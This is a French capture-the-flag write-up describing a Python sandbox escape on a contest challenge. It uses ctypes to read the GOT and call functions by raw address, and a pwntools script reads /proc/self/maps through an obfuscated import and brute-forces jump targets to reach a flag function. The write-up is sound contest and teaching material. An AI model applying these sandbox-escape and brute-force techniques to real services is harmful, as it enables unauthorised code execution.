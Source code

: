L'offset de l'entrée de la fonction welcome dans la GOT est à 0x40a8

On peut lire ce qui se situe à cette adresse en partant de la base du programme en mémoire:

```
>>> import ctypes as c
>>> base = 0x561e4a711000
>>> ptr = c.POINTER(c.c_long)
>>> v = c.cast(base+0x40a8,ptr).contents.value
>>> hex(v)
'0x7f9888ac4115'
```

On peut vérifier que ce soit bien la fonction welcome en l'appelant directement:

```
>>> fptr = c.CFUNCTYPE(c.c_void_p)
>>> f = fptr(0x7f9888ac4115)
>>> f()
Arriverez-vous à appeler la fonction print_flag ?
51
```

Bingo! La fonction print_flag ne doit pas être située bien loin ...

## Appel de la fonction print_flag

N'ayant pas réussi à reconstituer l'ELF de la librairie, je ne sais pas où est située exactement print_flag dans le binaire ...

J'ai également essayé de désassembler la section text pour trouver un pattern reconnaissable de début de fonction (push rbp  / sub rsp ...), mais le code était assez étrange et contenait pas mal d'opcode "ret" (0xc3).

N'ayant pas eu la foi de tout analyser, j'ai donc fait un script qui allait scruter chaque adresse du segment text de la librairie après welcome, et essaie de jump à cette adresse en espérant tomber sur la fonction print_flag !

Remarque: À cause de l'ASLR, on doit récupérer à chaque fois l'adresse de base de la librarie lib_flag.

Ni une ni deux, on code un petit script hyper propre (non):

```py
#!/usr/bin/python

from pwn import *

commands = """c = __import__('ctypes')
o = __import__('sys').modules['codecs'].open
ptr = c.CFUNCTYPE(c.c_void_p)
res = o('/proc/self/maps').read()
base = int(res[6417:6417+12],16)""".splitlines()

context.log_level = 'error'

while True:
	for i in range(0x115, 0x400):
		r = remote('challenges1.france-cybersecurity-challenge.fr', 4005)

		r.recv()

		for c in commands:
			r.sendline(c)
			r.recv()

		r.sendline("f = ptr(base+"+hex(i)+")")
		r.recv()
		r.sendline("f()")
```